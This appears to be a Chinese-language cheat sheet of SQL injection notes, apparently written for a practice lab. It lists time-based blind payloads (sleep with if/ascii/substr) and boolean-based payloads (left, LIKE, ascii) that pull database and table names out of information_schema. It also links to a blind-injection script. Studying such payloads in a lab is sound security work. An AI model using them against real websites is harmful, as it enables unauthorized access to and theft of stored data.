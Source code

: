 判断注入点：

`?id=1' and sleep(5)--+` //正常休眠

`?id=1" and sleep(5)--+` //无休眠

`?id=1') and sleep(5)--+`//无休眠

`?id=1") and sleep(5)--+`//无休眠

`?id=1' and if(length(database())=8,sleep(10),1)--+`

爆出数据库：

`?id=1' and if(ascii(substr(database(),1,1))=115,1,sleep(10))--+`

通过判断服务器没有睡眠，ascii码转换115为s ，那么就得出数据库第一个字符为s,下面就可以一次类推了,就不一

`substr(database(),N,1)`可以通过改变N的值来判断数据的地几个字符为什么

爆出数据表：

`?id=1' and if((select ascii(substr((select table\_name from information\_schema.tables where table\_schema="security"limit 0,1),1,1)))=101,sleep(5),1)-- -`

解释：security的第一张表的第一个字符ascii为101，为字符e

limit 0,1),N,1还是改变N的的得出第二个字符

再判断字符（ascii判断）

`?id=1" and if(ascii(substr(database(),1,1))>115,1,sleep(3))--+`

（left语句判断）

`?id=1' and if(left(database(),1)='s',sleep(10),1) --+`

`?id=1' and if(left(database(),2)='sa',sleep(10),1) --+`

Substring函数判断

`type=if(substring((select table\_name from information\_schema.tables where table\_schema=database() limit 0,1),1,1='a'),11111,sleep(1))--+`

附上一篇文档（盲注脚本）：[https://blog.csdn.net/weixin\_41598660/article/details/105162513](https://blog.csdn.net/weixin_41598660/article/details/105162513)

### 布尔注入

Left判断

`?id=1' and left(database(),1)='s' --+`

`?id=1' and left(database(),2) > 'sa' --+`

Like语句判断

`?id=1' and (select table\_name from information\_schema.tables where table\_schema=database() limit 0,1)like 'e%'--+`

Ascii语句判断

`and ascii(substr((select table\_name from information\_schema.tables where table\_schema=database() limit 0,1),1,1))=115--+`
